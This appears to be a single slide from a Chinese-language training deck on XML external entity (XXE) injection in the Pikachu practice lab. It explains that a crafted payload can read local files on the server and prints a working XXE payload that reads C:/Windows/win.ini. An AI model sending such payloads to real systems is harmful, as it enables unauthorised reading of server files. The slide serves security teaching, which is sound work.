

# XXE - XML外部实体注入
pikachu-XXE
构造一个恶意的payload，通过外部实体引用从而去获取后台服务器的本地文件信息。

<?xml version=”1.0”?>
<!DOCTYPE test[
<!ENTITY test SYSTEM “file:///C:/Windows/win.ini”>
]>
<test>&test;</test>